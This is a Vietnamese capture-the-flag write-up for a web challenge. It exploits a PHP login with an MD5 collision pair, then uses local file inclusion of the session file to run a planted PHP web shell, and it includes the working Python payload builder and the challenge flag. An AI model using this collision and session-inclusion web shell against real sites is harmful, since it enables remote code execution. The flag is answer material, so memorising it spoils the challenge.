

<h1 href="https://battle.cookiearena.org/challenges/web/magic-login-harder">Magic Login Harder</h1>

<h3>index.php</h3>

```php
if(isset($_POST["submit"])){
    $username = base64_decode($_POST['username']);
    $password = base64_decode($_POST['password']);

    if(($username == $password)){
        echo 'Username and password are not the same';
    }
    else if((md5($username)===md5($password))){
        $_SESSION['username'] = $username;
        header('Location: admin.php?file=1.txt');
    } else {
        echo 'Username and password are wrong';
    }
}
```
Xuất hiện lỗ hổng <b>md5collision</b> trong đoạn code.

Tìm được 2 chuỗi hex sau khi md5 cho kết quả bằng nhau tại <a href="https://www.mscs.dal.ca/~selinger/md5collision/">đây</a>.

```python
import hashlib
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

assert hashlib.md5(bytes.fromhex(username)).hexdigest() == hashlib.md5(bytes.fromhex(password)).hexdigest()
# đều bằng 79054025255fb1a26e4bc422aef54eb4
```

<h3>admin.php</h3>

```php
if($_SESSION['username'] != null){
        if(isset($_GET['file'])){
            $file = $_GET['file'];
            include($file);
        }
    }
```
Vì input username được gán vào biến <b>$_SESSION['username']</b> và mọi dữ liệu của SESSION được lưu trong file <b>/tmp/sess_PHPSESSID</b> nên có thế thêm payload để thực thi code như sau:

```python
import hashlib
import base64
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

payload = b'<?php system($_GET[\'cmd\'])?>'
assert hashlib.md5(bytes.fromhex(username)+payload).hexdigest() == hashlib.md5(bytes.fromhex(password)+payload).hexdigest()
# md5(username) == md5(password)

print(hashlib.md5(bytes.fromhex(username)).hexdigest())
username_encodebase64 = base64.b64encode(bytes.fromhex(username)+payload)
password_encodebase64 = base64.b64encode(bytes.fromhex(password)+payload)

assert username_encodebase64 != password_encodebase64
# username != password
print(username_encodebase64)
print(password_encodebase64)

#username = 0THdAsXm7sRpPZoGmK/5XC/KtYcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMlcUFaCFEl6PfNyZ/ZHb3ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+K0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgKgNHsaYIby2qIOTlvllK2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+

#password = 0THdAsXm7sRpPZoGmK/5XC/KtQcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMl8UFaCFEl6PfNyZ/ZHb1ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+I0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgCgNHsaYIby2qIOTlvllq2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+
```

Sau khi login, vào trang admin.



```
FLAG: CHH{7yPE_jU66lin9_hArdEr_97940fe057da6568c40d99ae587adee7}
```